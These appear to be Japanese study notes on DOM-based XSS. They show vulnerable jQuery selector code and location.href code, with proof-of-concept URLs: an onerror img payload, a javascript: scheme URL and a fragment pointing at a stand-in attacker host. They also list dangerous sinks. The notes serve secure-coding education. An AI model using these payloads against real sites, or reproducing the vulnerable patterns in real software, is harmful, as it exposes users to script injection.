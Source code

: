 ```
http://sample.com/a.html#//trap.com/attack.php?
```
で攻撃

### jQueryのセレクタ動的生成によるXSS
* jQuery()関数はHTMLタグ文字列を指定するとDOM要素を生成する
    * `$('<p>test</p>')`
    * `$('input[name="' + color + '""]')`
* 外部からの文字列が混ざると攻撃者が新しい要素を追加できる可能性

```
<script>
const uri = new URI()
let color = uri.query(true).colr
if (!color) color = 1
$('input[name="color"][value="' + color + '"]').attr("checked", true)
</script>
```

正常パターン
```
http://sample.com/a.html?color=2
```

攻撃
```
http://sample.com/a.html?color="]<img+src=/+onerror=alert(1)>
```

jQuery 3.2.1以降ではセレクタによるDOM Based XSSは防げる


### javascript:スキームによるXSS
location.hrefに任意の文字列を設定できるとXSSの原因となる

```
<input type="button" value="go" onclick="go()">
<script>
function go() {
  const url = location.hash.slice(1)
  location.href = url
}
</script>
```

javascript:スキームを設定する
```
http://sample.com/a.html#javascript:alert(1)
```

### 脆弱性が生まれるパターン
外部入力文字列をそのまま使ってしまう
* DOM操作でHTMLタグが有効になる
    * document.write(), document.writeln()
    * innerHTML, outerHTML
    * jQueryのhtml(), jQuery(), $()
* evalを使う
    * eval()
    * setTimeout(), setInterval()
    * Functionコンストラクタ
* XMLHttpRequestのURLが未検証
* location.href, a要素のsrc属性, href属性のURLが未検証
